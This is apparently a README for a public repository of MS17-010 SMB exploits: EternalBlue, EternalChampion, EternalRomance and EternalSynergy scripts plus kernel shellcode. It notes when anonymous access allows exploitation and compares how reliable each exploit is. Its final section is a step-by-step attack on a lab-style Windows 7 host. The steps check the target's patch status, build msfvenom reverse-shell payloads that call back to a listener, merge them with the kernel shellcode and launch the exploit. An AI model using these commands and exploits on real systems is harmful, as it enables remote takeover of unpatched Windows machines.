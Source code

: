 # MS17-010

This repository is for public my work on MS17-010. I have no plan to do any support. **All support issues will not get response from me**.

## Files

 * **BUG.txt** MS17-010 bug detail and some analysis
 * **checker.py** Script for finding accessible named pipe
 * **eternalblue_exploit7.py** Eternalblue exploit for windows 7/2008
 * **eternalblue_exploit8.py** Eternalblue exploit for windows 8/2012 x64
 * **eternalblue_poc.py** Eternalblue PoC for buffer overflow bug
 * **eternalblue_kshellcode_x64.asm** x64 kernel shellcode for my Eternalblue exploit. This shellcode should work on Windows Vista and later
 * **eternalblue_kshellcode_x86.asm** x86 kernel shellcode for my Eternalblue exploit. This shellcode should work on Windows Vista and later
 * **eternalblue_sc_merge.py** Script for merging eternalblue x86 and x64 shellcode. Eternalblue exploit, that support both x86 and x64, with merged shellcode has no need to detect a target architecture
 * **eternalchampion_leak.py** Eternalchampion PoC for leaking info part
 * **eternalchampion_poc.py** Eternalchampion PoC for controlling RIP
 * **eternalchampion_poc2.py** Eternalchampion PoC for getting code execution
 * **eternalromance_leak.py** Eternalromance PoC for leaking info part
 * **eternalromance_poc.py** Eternalromance PoC for OOB write
 * **eternalromance_poc2.py** Eternalromance PoC for controlling a transaction which leading to arbitrary read/write
 * **eternalsynergy_leak.py** Eternalsynergy PoC for leaking info part
 * **eternalsynergy_poc.py** Eternalsynergy PoC for demonstrating heap spraying with large paged pool
 * **infoleak_uninit.py** PoC for leaking info from uninitialized transaction data buffer
 * **mysmb.py** Extended Impacket SMB class for easier to exploit MS17-010 bugs
 * **npp_control.py** PoC for controlling nonpaged pool allocation with session setup command
 * **zzz_exploit.py** Exploit for Windows 2000 and later (requires access to named pipe)


## Anonymous user

Anonymous user (null session) get more restriction on default settings of new Windows version. To exploit Windows SMB without authentication, below behavior should be aware.

* Since Windows Vista, default settings does not allow anonymous to access any named pipe
* Since Windows 8, default settings does not allow anonymous to access IPC$ share (IPC$ might be acessible but cannot do much)


## About NSA exploits

* **Eternalblue** requires only access to IPC$ to exploit a target while other exploits require access to named pipe too. So the exploit always works against Windows < 8 in all configuration (if tcp port 445 is accessible). However, Eternalblue has a chance to crash a target higher than other exploits.
* **Eternalchampion** requires access to named pipe. The exploit has no chance to crash a target.
* **Eternalromance** requires access to named pipe. The exploit can target Windows < 8 because the bug for info leak is fixed in Windows 8. The exploit should have a chance to crash a target lower than Eternalblue. I never test a reliable of the exploit.
* **Eternalsynergy** requires access to named pipe. I believe this exploit is modified from Eternalromance to target Windows 8 and later. Eternalsynergy uses another bug for info leak and does some trick to find executable memory (I do not know how it works because I read only output log and pcap file).

## Compilation
Eternal Blue

$ python ../checker.py 10.11.1.230
Target OS: Windows 7 Ultimate N 7600
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_ACCESS_DENIED
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: STATUS_ACCESS_DENIED

Then we use the vulnerability EternalBlue instead of EternalChampion.
```bash
nasm -f bin eternalblue_kshellcode_x86.asm -o sc_x86_kernel.bin
nasm -f bin eternalblue_kshellcode_x64.asm -o sc_x64_kernel.bin
msfvenom -p windows/shell_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=10.11.0.199 LPORT=12345
msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=10.11.0.199 LPORT=11234
cat sc_x86_kernel.bin sc_x86_msf.bin > sc_x86.bin
cat sc_x64_kernel.bin sc_x64_msf.bin > sc_x64.bin
```

A) both versions of OS
$ python eternalblue_sc_merge.py sc_x86.bin sc_x64.bin sc_all.bin
$ python ../eternalblue_exploit7.py 10.11.1.230 sc_all.bin

B) x86
$ python ../eternalblue_exploit7.py 10.11.1.230 sc_x86.bin
